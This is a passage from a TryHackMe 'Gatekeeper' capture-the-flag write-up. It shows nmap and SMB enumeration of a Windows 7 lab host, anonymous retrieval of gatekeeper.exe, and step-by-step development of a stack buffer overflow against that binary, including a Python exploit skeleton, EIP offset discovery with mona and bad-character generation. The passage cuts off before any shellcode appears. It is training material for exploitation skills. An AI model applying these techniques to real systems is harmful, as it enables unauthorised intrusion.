|     uuid: a398e520-d59a-4bdd-aa7a-3c1e0303a511
|     ncalrpc: senssvc
|
|     annotation: IKE/Authip API
|     ncacn_np: \PIPE\atsvc
|     uuid: a398e520-d59a-4bdd-aa7a-3c1e0303a511
|     netbios: \\GATEKEEPER
|
|     annotation: IKE/Authip API
|     tcp_port: 49155
|     uuid: a398e520-d59a-4bdd-aa7a-3c1e0303a511
|     ip_addr: 0.0.0.0
|
|     annotation: IP Transition Configuration endpoint
|     uuid: 552d076a-cb29-4e44-8b6a-d15e59e2c0af
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: IP Transition Configuration endpoint
|     uuid: 552d076a-cb29-4e44-8b6a-d15e59e2c0af
|     ncalrpc: IUserProfile2
|
|     annotation: IP Transition Configuration endpoint
|     uuid: 552d076a-cb29-4e44-8b6a-d15e59e2c0af
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     annotation: IP Transition Configuration endpoint
|     uuid: 552d076a-cb29-4e44-8b6a-d15e59e2c0af
|     ncalrpc: senssvc
|
|     annotation: IP Transition Configuration endpoint
|     ncacn_np: \PIPE\atsvc
|     uuid: 552d076a-cb29-4e44-8b6a-d15e59e2c0af
|     netbios: \\GATEKEEPER
|
|     annotation: IP Transition Configuration endpoint
|     tcp_port: 49155
|     uuid: 552d076a-cb29-4e44-8b6a-d15e59e2c0af
|     ip_addr: 0.0.0.0
|
|     annotation: XactSrv service
|     uuid: 98716d03-89ac-44c7-bb8c-285824e51c4a
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: XactSrv service
|     uuid: 98716d03-89ac-44c7-bb8c-285824e51c4a
|     ncalrpc: IUserProfile2
|
|     annotation: XactSrv service
|     uuid: 98716d03-89ac-44c7-bb8c-285824e51c4a
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     annotation: XactSrv service
|     uuid: 98716d03-89ac-44c7-bb8c-285824e51c4a
|     ncalrpc: senssvc
|
|     annotation: XactSrv service
|     ncacn_np: \PIPE\atsvc
|     uuid: 98716d03-89ac-44c7-bb8c-285824e51c4a
|     netbios: \\GATEKEEPER
|
|     annotation: XactSrv service
|     tcp_port: 49155
|     uuid: 98716d03-89ac-44c7-bb8c-285824e51c4a
|     ip_addr: 0.0.0.0
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: IUserProfile2
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: senssvc
|
|     annotation: Impl friendly name
|     ncacn_np: \PIPE\atsvc
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     netbios: \\GATEKEEPER
|
|     annotation: Impl friendly name
|     tcp_port: 49155
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ip_addr: 0.0.0.0
|
|     annotation: Impl friendly name
|     ncacn_np: \PIPE\srvsvc
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     netbios: \\GATEKEEPER
|
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     ncalrpc: IUserProfile2
|
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     ncalrpc: senssvc
|
|     ncacn_np: \PIPE\atsvc
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     netbios: \\GATEKEEPER
|
|     tcp_port: 49155
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     ip_addr: 0.0.0.0
|
|     ncacn_np: \PIPE\srvsvc
|     uuid: 30b044a5-a225-43f0-b3a4-e060df91f9c1
|     netbios: \\GATEKEEPER
|
|     annotation: Event log TCPIP
|     uuid: f6beaff7-1e19-4fbb-9f8f-b89e2018337c
|     ncalrpc: eventlog
|
|     annotation: Event log TCPIP
|     ncacn_np: \pipe\eventlog
|     uuid: f6beaff7-1e19-4fbb-9f8f-b89e2018337c
|     netbios: \\GATEKEEPER
|
|     annotation: Event log TCPIP
|     tcp_port: 49153
|     uuid: f6beaff7-1e19-4fbb-9f8f-b89e2018337c
|     ip_addr: 0.0.0.0
|
|     annotation: NRP server endpoint
|     uuid: 30adc50c-5cbc-46ce-9a0e-91914789e23c
|     ncalrpc: eventlog
|
|     annotation: NRP server endpoint
|     ncacn_np: \pipe\eventlog
|     uuid: 30adc50c-5cbc-46ce-9a0e-91914789e23c
|     netbios: \\GATEKEEPER
|
|     annotation: NRP server endpoint
|     tcp_port: 49153
|     uuid: 30adc50c-5cbc-46ce-9a0e-91914789e23c
|     ip_addr: 0.0.0.0
|
|     annotation: NRP server endpoint
|     uuid: 30adc50c-5cbc-46ce-9a0e-91914789e23c
|     ncalrpc: AudioClientRpc
|
|     annotation: NRP server endpoint
|     uuid: 30adc50c-5cbc-46ce-9a0e-91914789e23c
|     ncalrpc: Audiosrv
|
|     annotation: DHCP Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5
|     ncalrpc: eventlog
|
|     annotation: DHCP Client LRPC Endpoint
|     ncacn_np: \pipe\eventlog
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5
|     netbios: \\GATEKEEPER
|
|     annotation: DHCP Client LRPC Endpoint
|     tcp_port: 49153
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5
|     ip_addr: 0.0.0.0
|
|     annotation: DHCP Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5
|     ncalrpc: AudioClientRpc
|
|     annotation: DHCP Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5
|     ncalrpc: Audiosrv
|
|     annotation: DHCP Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5
|     ncalrpc: dhcpcsvc
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     ncalrpc: eventlog
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     ncacn_np: \pipe\eventlog
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     netbios: \\GATEKEEPER
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     tcp_port: 49153
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     ip_addr: 0.0.0.0
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     ncalrpc: AudioClientRpc
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     ncalrpc: Audiosrv
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     ncalrpc: dhcpcsvc
|
|     annotation: DHCPv6 Client LRPC Endpoint
|     uuid: 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6
|     ncalrpc: dhcpcsvc6
|
|     annotation: Security Center
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ncalrpc: eventlog
|
|     annotation: Security Center
|     ncacn_np: \pipe\eventlog
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     netbios: \\GATEKEEPER
|
|     annotation: Security Center
|     tcp_port: 49153
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ip_addr: 0.0.0.0
|
|     annotation: Security Center
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ncalrpc: AudioClientRpc
|
|     annotation: Security Center
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ncalrpc: Audiosrv
|
|     annotation: Security Center
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ncalrpc: dhcpcsvc
|
|     annotation: Security Center
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ncalrpc: dhcpcsvc6
|
|     annotation: Security Center
|     uuid: 06bba54a-be05-49f9-b0a0-30f790261023
|     ncalrpc: OLED2C8C761C2A941EB88F9C88FB3D2
|
|     uuid: 76f226c3-ec14-4325-8a99-6a46348418af
|     ncalrpc: WMsgKRpc052881
|
|     annotation: Secure Desktop LRPC interface
|     uuid: 12e65dd8-887f-41ef-91bf-8d816c42c2e7
|     ncalrpc: WMsgKRpc052881
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: LRPC-76d9ae7c33a749dd1d
|
|     uuid: 76f226c3-ec14-4325-8a99-6a46348418af
|     ncalrpc: WMsgKRpc049FD0
|
|     ncacn_np: \PIPE\InitShutdown
|     uuid: 76f226c3-ec14-4325-8a99-6a46348418af
|     netbios: \\GATEKEEPER
|
|     uuid: 76f226c3-ec14-4325-8a99-6a46348418af
|     ncalrpc: WindowsShutdown
|
|     uuid: d95afe70-a6d5-4259-822e-2c84da1ddb0d
|     ncalrpc: WMsgKRpc049FD0
|
|     ncacn_np: \PIPE\InitShutdown
|     uuid: d95afe70-a6d5-4259-822e-2c84da1ddb0d
|     netbios: \\GATEKEEPER
|
|     uuid: d95afe70-a6d5-4259-822e-2c84da1ddb0d
|_    ncalrpc: WindowsShutdown
| nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:7d:1d:c7:b2:e9 (unknown)
| Names:
|   GATEKEEPER<00>       Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   GATEKEEPER<20>       Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 7d 1d c7 b2 e9 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 65358/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 63711/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 25581/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23837/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_path-mtu: PMTU == 1500
| qscan:
| PORT   FAMILY  MEAN (us)  STDDEV    LOSS (%)
| 135    0       358203.60  2009.84   0.0%
| 139    0       361054.50  5023.02   0.0%
| 31337  0       360685.30  8341.34   0.0%
| 49152  0       356722.30  2297.23   0.0%
| 49153  0       359142.80  5275.54   0.0%
| 49154  0       361557.70  13034.61  0.0%
| 49155  0       361471.60  7281.24   0.0%
|_49161  0       360900.20  10277.96  0.0%
| smb-enum-shares:
|   account_used: guest
|   \\10.10.81.67\ADMIN$:
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.81.67\C$:
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.81.67\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\10.10.81.67\Users:
|     Type: STYPE_DISKTREE
|     Comment:
|     Anonymous access: <none>
|_    Current user access: READ
| smb-ls: Volume \\10.10.81.67\Users
| SIZE   TIME                 FILENAME
| <DIR>  2009-07-14T03:20:08  .
| <DIR>  2009-07-14T03:20:08  ..
| <DIR>  2020-05-15T01:57:06  Share
| 13312  2020-05-15T01:19:17  Share\gatekeeper.exe
|_
| smb-mbenum:
|   Master Browser
|     GATEKEEPER  6.1  gatekeeper
|   Potential Browser
|     GATEKEEPER  6.1  gatekeeper
|   Server service
|     GATEKEEPER  6.1  gatekeeper
|   Windows NT/2000/XP/2003 server
|     GATEKEEPER  6.1  gatekeeper
|   Workstation
|_    GATEKEEPER  6.1  gatekeeper
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-21T19:36:22-04:00
| smb-protocols:
|   dialects:
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|_    2.10
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb2-capabilities:
|   2.02:
|     Distributed File System
|   2.10:
|     Distributed File System
|_    Leasing
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-08-21T23:36:29
|_  start_date: 2021-08-21T23:32:03
| traceroute-geolocation:
|   HOP  RTT     ADDRESS                                      GEOLOCATION
|   1    1.99    austin-helper-x13.mshome.net (172.18.224.1)  - ,-
|   2    97.77   10.4.0.1                                     - ,-
|   3    ...
|   4    ...
|_  5    354.04  10.10.81.67                                  - ,-

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   1.99 ms   austin-helper-x13.mshome.net (172.18.224.1)
2   97.77 ms  10.4.0.1
3   ... 4
5   354.04 ms 10.10.81.67

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 07:38
Completed NSE at 07:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 07:38
Completed NSE at 07:38, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 07:38
Completed NSE at 07:38, 0.00s elapsed
Post-scan script results:
| reverse-index:
|   135/tcp: 10.10.81.67
|   139/tcp: 10.10.81.67
|   31337/tcp: 10.10.81.67
|   49152/tcp: 10.10.81.67
|   49153/tcp: 10.10.81.67
|   49154/tcp: 10.10.81.67
|   49155/tcp: 10.10.81.67
|_  49161/tcp: 10.10.81.67
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 341.84 seconds
           Raw packets sent: 148 (10.828KB) | Rcvd: 53 (3.640KB)

```

As we can get from the rustscan result, we have SMB, let's enum further ...

SMB Enumeration:

```bash
┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Gatekeeper-Completed
└❯ smbclient -L \\\\10.10.81.67
Enter WORKGROUP\root's password:

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Users           Disk
SMB1 disabled -- no workgroup available


┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Gatekeeper-Completed
└❯ smbmap -u anonymous -p anonymous -H 10.10.81.67
[+] Guest session       IP: 10.10.81.67:445     Name: 10.10.81.67
Disk                                                    Permissions     Comment
----                                                    -----------     -------
ADMIN$                                                  NO ACCESS       Remote Admin
C$                                                      NO ACCESS       Default share
IPC$                                                    NO ACCESS       Remote IPC
Users                                                   READ ONLY

┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Gatekeeper-Completed
└❯ smbmap -u anonymous -p anonymous -H 10.10.81.67 -R 'Users'
[+] Guest session       IP: 10.10.81.67:445     Name: 10.10.81.67
Disk                                                    Permissions     Comment
----                                                    -----------     -------
Users                                                   READ ONLY
.\Users\*
dw--w--w--                0 Fri May 15 09:57:08 2020    .
dw--w--w--                0 Fri May 15 09:57:08 2020    ..
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Default
fr--r--r--              174 Wed Apr 22 11:18:13 2020    desktop.ini
dr--r--r--                0 Fri May 15 09:58:07 2020    Share
.\Users\Default\*
dw--w--w--                0 Mon Apr 20 03:51:00 2020    .
dw--w--w--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    AppData
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Desktop
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Documents
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Downloads
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Favorites
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Links
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Music
fr--r--r--           262144 Wed Apr 22 11:18:13 2020    NTUSER.DAT
fr--r--r--             1024 Wed Apr 22 11:18:13 2020    NTUSER.DAT.LOG
fr--r--r--           189440 Wed Apr 22 11:18:13 2020    NTUSER.DAT.LOG1
fr--r--r--                0 Wed Apr 22 11:18:13 2020    NTUSER.DAT.LOG2
fr--r--r--            65536 Wed Apr 22 11:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
fr--r--r--           524288 Wed Apr 22 11:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
fr--r--r--           524288 Wed Apr 22 11:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Pictures
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Saved Games
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Videos
.\Users\Default\AppData\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Local
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Roaming
.\Users\Default\AppData\Local\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Microsoft
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Temp
.\Users\Default\AppData\Local\Microsoft\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Windows
.\Users\Default\AppData\Local\Microsoft\Windows\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    GameExplorer
dr--r--r--                0 Mon Apr 20 03:51:00 2020    History
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Temporary Internet Files
.\Users\Default\AppData\Roaming\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Media Center Programs
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Microsoft
.\Users\Default\AppData\Roaming\Microsoft\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Internet Explorer
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Windows
.\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Quick Launch
.\Users\Default\AppData\Roaming\Microsoft\Windows\*
dr--r--r--                0 Mon Apr 20 03:51:00 2020    .
dr--r--r--                0 Mon Apr 20 03:51:00 2020    ..
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Cookies
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Network Shortcuts
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Printer Shortcuts
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Recent
dw--w--w--                0 Mon Apr 20 03:51:00 2020    SendTo
dw--w--w--                0 Mon Apr 20 03:51:00 2020    Start Menu
dr--r--r--                0 Mon Apr 20 03:51:00 2020    Templates
.\Users\Share\*
dr--r--r--                0 Fri May 15 09:58:07 2020    .
dr--r--r--                0 Fri May 15 09:58:07 2020    ..
fr--r--r--            13312 Fri May 15 09:58:07 2020    gatekeeper.exe


┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Gatekeeper-Completed
└❯ smbget -Rrv smb://10.10.81.67/Users/Share -U anonymous
Password for [anonymous] connecting to //Users/10.10.81.67:
Using workgroup WORKGROUP, user anonymous
smb://10.10.81.67/Users/Share/gatekeeper.exe
Downloaded 13.00kB in 15 seconds
```

Download the gatekeeper.exe so you can study and inspect it later.


Let check out the port 31337, we are seeing something from the rustscan result, it's some sort of echo server which can be confirmed with netcat.

```dos
C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed>nc 10.10.81.67 31337
admin
Hello admin!!!
```

Next let's check the gatekeeper.exe.

```dos
C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed>.\gatekeeper.exe
[+] Listening for connections.
```

Check what is the port is spawned (probably port 31337?)

```dos
C:\Users\crazy\Desktop>netstat -ano | findstr 31337
  TCP    0.0.0.0:31337          0.0.0.0:0              LISTENING       17720
```

Let's try if we can have some sort of buffer overflow?

```dos
C:\Users\crazy\Desktop>nc 127.0.0.1 31337
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!!

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

gatekeeper.exe response:

```dos
C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed>.\gatekeeper.exe
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 98
Bytes sent: 107
Bytes received: 206
send failed: 10038
```

We saw that when gatekeeper received more than 100 bytes (in above - 206 bytes), it will crash.

Now we can fire up Immunity Debugger with Mona (please ensure you know how to setup, research or google), and open the gatekeeper.exe

Set the mona working directory

```text
!mona config -set workingfolder C:\Users\crazy\Desktop\TryHackMe-Gatekeeper-Completed\%p
```

Get ready of your buffer overflow script as well.

[Here is the buffer overflow exploit script](buffer-overflow-exploit.py)

The buffer overflow script showing here is a skeleton of how we can get the buffer overflow exploit

```python
#!/usr/bin/env python3
import socket,time

ip = '127.0.0.1'
port = 31337
timeout = 5
offset = 0
overflow = 'A' * offset
retn_value = ''
padding = ''
payload = ''
postfix = ''
buffer = overflow + retn_value + padding + payload + postfix
try:
  with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(timeout)
    s.connect((ip, port))
    print('Sending evil buffer...')
    s.send(bytes(buffer + '\r\n', 'latin-1'))
    print('Done!')
except:
  print('Could not connect.')
```

Now generate a unique buffer pattern that is 300 bytes larger than the crash buffer so we can determine the offset in the pattern which overwrites the EIP register using metasploit pattern_create.rb (or you can other pattern generator as well)

```dos
C:\PentestBox\bin\metasploit-framework\tools\exploit
> ruby pattern_create.rb -l 400

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

To get the EIP and offset value, first modify the buffer overflow exploit script.

- Change IP
- Change port number
- Change payload - with the pattern generated by metasploit pattern_create.rb
- Left everything as default

Once we have everything ready, in Immunity Debugger, run the program (if you using windows, you can press F9)

Then we run the buffer overflow exploit.

```dos
python buffer-overflow-exploit.py
```

In the Immunity Debugger, at bottom status, you will saw the following



This mean we have successfully crash the gatekeeper.exe

Now issue the below command to find out the EIP and offset value.

The 400 is coreresponding to the byte we used to generate the unique pattern from above - metasploit pattern_created.rb

```text
!mona findmsp -distance 400
```



If you have set mona working directory correctly, you will find _findmsp.txt_ in the directory.

Open up the _findmsp.txt_ and look for the section below:

```text
[+] Looking for cyclic pattern in memory
Cyclic pattern (normal) found at 0x00b0194e (length 122 bytes)
EIP contains normal pattern : 0x39654138 (offset 146)
ESP (0x00b019e4) points at offset 150 in normal pattern (length 250)
EBP contains normal pattern : 0x65413765 (offset 142)
[+] Examining SEH chain
```

Now we have  the EIP and offset value.

Though, you can confirm the exact offset (if you wanted using metasploit pattern_offset.rb)

To use metasploit pattern_offset.rb, command show below

```text
C:\PentestBox\bin\metasploit-framework\tools\exploit
> ruby pattern_offset.rb -q EIP_Value_You_Get_From_Mona
```

In our case, we have it as below

```dos
C:\PentestBox\bin\metasploit-framework\tools\exploit
> ruby pattern_offset.rb -q 39654138
[*] Exact match at offset 146
```

You will find that the offset value macthes the one we get from Mona as well.

Next step, we modify the exploit script again (using the same script from previous) --- to ensure that we can control EIP

- Set offset value to what we get from mona
- Set retn_value = 'BBBB'
- Set payload as empty
- Left others as what it is

Once above configuration ready, re-run gatekeeper.exe in Immunity Debugger again.

And run the buffer overflow exploit script again.

In Immunity Debugger, CPU Thread, you will saw we have successfully overwrite the EIP value with _42424242_ which represented as _BBBB_

```text
EAX FFFFFFFF
ECX 173D9FCC
EDX 00000000
EBX 00626538
ESP 00B019E4 ASCII '
!!!
'
EBP 41414141
ESI 08041470 gatekeep.08041470
EDI 00626538
EIP 42424242
```



Until now, we can confirm we have the control of EIP.

Next, we going to generate sample byte in Immunity Debugger, this allow us to compare the bad characters later on.

Note: there is a _bytearray.txt_ and _bytearray.bin_ in the Mona directory as well

```text
!mona bytearray -b '\x00'
```

Next, we generate a default bad char value as payload with python script.

Note: This default bad char value shall applicable to any buffer overflow, hence you can generate once and save it for further use.

[Here is the generate-default-bad-char script](generate-default-bad-char.py)

```python
#!/usr/bin/env python3
from __future__ import print_function

# To generate default bad char - this is applicable to every single buffer overflow

listRem = ''.split('\\x')

for x in range(1, 256):
    if '{:02x}'.format(x) not in listRem:
        print('\\x' + '{:02x}'.format(x), end='')
print()
```

Bad char generated as below:

```dos
C:\Users\crazy\Desktop>python generate-default-bad-char.py
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\x